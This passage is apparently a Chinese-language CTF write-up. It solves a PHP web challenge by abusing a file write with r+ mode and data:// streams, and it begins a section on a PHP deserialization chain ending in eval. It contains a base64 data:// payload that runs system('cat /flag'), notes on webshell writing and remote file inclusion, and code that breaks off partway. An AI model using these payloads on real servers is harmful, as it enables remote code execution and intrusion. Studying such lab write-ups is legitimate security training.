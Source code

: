 这道题目我研究了一下午，还是遗憾，比赛结束之前没有写出来

首先本地调试下，发现这个r+就很恶心，如果是w，这道题就简单了

> r+和w其实都是可读可写，但是本质上不同，r+只能在原有的文件下写入文件，且是覆盖，而w是如果刚开始没有该文件，会先创建文件再写入

本地调试下的确是可以通过cream.php写入，会覆盖掉原来的内容

![image-20220911213109642](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112131724.png?x-oss-process=hzy)

所以尝试本地写入马，因为有过滤所以需要绕过一下，data协议传入base马

![image-20220911213251964](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112132068.png?x-oss-process=hzy)

没解析，擦，而且他这个r+写入文件一不小心会把之前文件的结构搞坏，php结构都直接成文本了

![image-20220911213351047](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112133115.png?x-oss-process=hzy)

这样传貌似就把之前的都全部覆盖掉了

![image-20220911213505022](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112135125.png?x-oss-process=hzy)

但是还是不能正常解析，当时做到这先测试一下能不能传进去了，发现远程传都传不进去，不知道又设置啥东西了，不过可以确定的是没有拦截data协议，构造$fp数据流直接cat即可，不用传马，这算是出发点就是错吗？害

```
?file=data://text/plain,&content=data://text/plain;base64,PD9waHAKc3lzdGVtKCdjYXQgL2ZsYWcnKTsKPz4=
```

![image-20220911214149495](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112141578.png?x-oss-process=hzy)
还有一种做法是远程文件包含

```
python3 -m http.server 5010
```

![image-20220912110014284](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209121100429.png?x-oss-process=hzy)

![image-20220912110037054](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209121100116.png?x-oss-process=hzy)

# web3

www.zip泄露源码，down下来审计，发现有个demo.php

考察php反序列化构造链

```
<?php

class Water{
    public $waterfall;
    /*public function __construct(){
        $this->waterfall = array();
    }
    public function __get($value){
        $function = $this->waterfall;
        return $function();
    }*/
}

class Circle{
    public $daemon;
    protected $dash;

    /*public function runc($value){
        @eval($value);  // 触发eval，终点
    }*/

```